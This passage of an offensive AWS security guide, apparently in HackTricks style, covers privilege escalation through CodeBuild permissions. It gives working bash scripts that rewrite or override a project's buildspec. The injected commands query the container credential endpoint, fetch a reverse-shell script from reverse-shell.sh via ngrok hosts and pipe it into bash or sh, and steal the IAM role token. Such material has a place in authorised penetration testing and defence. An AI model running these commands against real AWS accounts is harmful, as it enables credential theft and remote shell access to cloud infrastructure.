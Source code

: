 ```bash
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

# You need to indicate the name of the project you want to modify
JSON="{
    \"name\": \"<codebuild-demo-project>\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"aws/codebuild/standard:1.0\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\"
    },
    \"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```

**Potential Impact:** Direct privesc to any AWS Codebuild role.

### `codebuild:StartBuild` | `codebuild:StartBuildBatch`

Only with one of these permissions it's enough to trigger a build with a new buildspec and steal the token of the iam role assigned to the project:

{% tabs %}
{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```bash
cat > /tmp/builspec.yml <<EOF
version: 0.2

phases:
  build:
      commands:
            - curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
EOF

aws codebuild start-build --project <project-name> --buildspec-override file:///tmp/builspec.yml
```
{% endcode %}
{% endtab %}
